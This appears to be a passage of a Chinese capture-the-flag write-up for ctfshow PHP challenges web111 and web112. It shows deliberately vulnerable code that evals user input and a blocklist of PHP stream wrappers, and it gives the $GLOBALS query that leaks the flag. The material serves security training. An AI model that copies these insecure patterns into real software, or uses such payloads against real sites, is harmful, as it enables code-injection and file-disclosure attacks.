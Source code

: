 ## web111(GLOBALS变量绕过)

```php
highlight_file(__FILE__);
error_reporting(0);
include("flag.php");
function getFlag(&$v1,&$v2){
    eval("$$v1 = &$$v2;");
    var_dump($$v1);
}
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];
    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v2)){
            die("error v2");
    }
    if(preg_match('/ctfshow/', $v1)){
            getFlag($v1,$v2);
    }
}
?> 
```

利用$GLOBALS变量，引用全局作用域中可用的全部变量

将$GLOBALS变量赋值给$ctfshow

```
v1=ctfshow&v2=GLOBALS
```

## web112(php伪协议)

```php
highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/\.\.\/|http|https|data|input|rot13|base64|string/i',$file)){
        die("hacker!");
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
} 
```
